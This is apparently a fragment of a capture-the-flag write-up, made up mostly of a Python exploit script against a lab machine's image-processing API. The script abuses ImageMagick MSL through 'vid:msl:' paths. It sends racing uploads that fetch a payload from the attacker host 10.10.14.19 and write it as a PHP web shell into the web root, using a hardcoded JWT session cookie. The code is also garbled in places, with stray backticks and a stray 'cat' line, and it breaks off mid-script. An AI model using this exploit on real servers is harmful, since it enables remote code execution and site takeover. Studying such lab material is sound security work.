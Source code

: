 Since they used  ``imagick``

~~~
import asyncio
import aiohttp
import requests

headers = {
    'Content-Type': 'application/json',
    'User-Agent': 'Mozilla/5.0```
 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36',
    'Cookie': 'token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNjg4NDY1NTE5LCJleHAiOjE2ODg0ODcxMTksIm5iZiI6MTY4ODQ2NTUxOSwianRpIjoid1E1VkRYejM2cGU5ZU9oQyIsInN1YiI6IjIiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.KGEyRBU4aZp-sJ581pZQpq2JqPWRBwTkFkAlZdafq3g',
    'Connection': 'close'
}
header2 = {
    "Accept": "*/*",
    "Content-Type": "multipart/form-data; boundary=------------------------c32aaddf3d8fd979"
}
data1 = {
    'path': 'vid:msl:/tmp/php*',
    'effect': 'charcoal'
}

data2 = '''
--------------------------c32aaddf3d8fd979
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: application/octet-stream
cat 
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="http://10.10.14.19/positive.png" />
<write filename="/var/www/html/intentions/public/a.php" />
</image>
--------------------------c32aaddf3d8fd979--
'''

data3 = {
    'path': 'vid:msl:/var/www/html/intentions/public/index*',
    'effect': 'charcoal'
}

url = 'http://10.10.11.220/'
url1 = url + "api/v2/admin/image/modify"
url2 = url + "a.php"

async def send_requests():
    async with aiohttp.ClientSession(headers=headers) as session:
        tasks = []
        
        for _ in range(30):
            task1 = asyncio.ensure_future(session.post(url1, json=data1))
            tasks.append(task1)

            task2 = asyncio.ensure_future(session.post(url1, headers=header2, data=data2))
            tasks.append(task2)

            task3 = asyncio.ensure_future(session.post(url1, json=data3))
            tasks.append(task3)

        responses = await asyncio.gather(*tasks)
        
~~~
